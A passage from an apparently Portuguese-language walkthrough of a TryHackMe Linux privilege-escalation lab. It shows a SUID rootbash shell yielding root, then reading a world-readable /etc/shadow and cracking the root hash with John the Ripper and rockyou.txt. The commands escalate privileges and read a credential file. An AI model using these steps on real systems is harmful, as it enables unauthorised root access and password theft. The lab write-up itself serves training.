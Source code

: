 Para sair da console do mysql, digite ***quit***.

Agora, para obter um shell com elevação de privilégios, basta digitar:

```shell
user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
rootbash-4.1# whoami
root
rootbash-4.1# 
```

Por fim, é solicitado que seja removido o arquivo /tmp/rootbash e saia do shell root, antes de prosseguir para as próximas tasks da room.

### Questões:

- a. ***Read and follow along with the above***: *Não há necessidade de resposta*

## 3 - Weak File Permissions - Readable /etc/shadow

O arquivo /etc/shadow contém as hashs de senhas dos usuários do sistema. Em uma configuração correta, esse arquivo só deve ter permissão de leitura para o usuário root.

Verificando as permissões do arquivo na VM alvo:

```shell
user@debian:~$ ls -l /etc/shadow
-rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
user@debian:~$ 
```
Percebe-se que outros usuário possuem permissão de leitura. Também permissão de gravação, mas isso será explorado na próxima task da room.

Como o usuário ***user*** pode ler o arquivo, basta executar um ***cat /etc/shadow***.

O que se pode fazer agora, é coletar a linha do usuário root, adicionar em um arquivo e usar uma ferramenta, como por exemplo, o John the ripper para descobrir a senha do usuário root.

```shell
┌──(root㉿kali)-[/tryhackme/rooms/linuxprivesc]
└─# john --wordlist=rockyou.txt hash.txt                                       
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password123      (root)     
1g 0:00:00:00 DONE (2022-07-13 20:09) 1.666g/s 2560p/s 2560c/s 2560C/s cuties..mexico1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
Para a execução do comando acima, foi utilizada a wordlist rockyou.txt. Esta wordlist esstá disponível no próprio Kali Linux.
